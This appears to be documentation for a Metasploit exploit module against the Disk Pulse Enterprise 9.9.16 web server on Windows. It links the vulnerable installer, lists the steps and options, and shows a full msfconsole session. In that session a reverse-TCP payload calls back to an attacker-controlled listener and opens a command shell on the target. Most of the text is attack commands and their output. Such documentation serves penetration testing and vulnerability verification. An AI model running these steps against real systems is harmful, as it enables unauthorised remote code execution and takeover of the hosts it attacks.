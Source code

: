 ## Vulnerable Application

  Tested on Windows 7 x64 and x86.
  
  Install the application from the link below and enable the web server by going to Options -> Server -> Enable Web Server on Port.
  
  [Disk Pulse Enterprise v 9.9.16](https://www.exploit-db.com/apps/45ce22525c87c0762f6e467db6ddfcbc-diskpulseent_setup_v9.9.16.exe)

## Verification Steps

  1. Install the application and set the option above to enable the web server
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/disk_pulse_enterprise_get```
  5. Set options and payload
  6. Do: ```run```
  7. You should get a shell.

## Options

  **RHOST**

  IP address of the remote host running the server.
  
  **RPORT**
  
  Port that the web server is running on.  Default is 80 but it can be changed when setting up the program or in the options.

## Scenarios

  To obtain a shell:

  ```
msf > use exploit/windows/http/disk_pulse_enterprise_get
msf exploit(disk_pulse_enterprise_get) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf exploit(disk_pulse_enterprise_get) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf exploit(disk_pulse_enterprise_get) > set LHOST y.y.y.y
LHOST => y.y.y.y
msf exploit(disk_pulse_enterprise_get) > set LPORT 1234
LPORT => 1234
msf exploit(disk_pulse_enterprise_get) > set RPORT 8080
RPORT => 8080
msf exploit(disk_pulse_enterprise_get) > exploit

[*] Started reverse TCP handler on y.y.y.y:1234
[*] Generating exploit...
[*] Sending exploit...
[*] Command shell session 1 opened (y.y.y.y:1234 -> x.x.x.x:64567) at 2017-09-14 10:52:06 -0500

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
  ```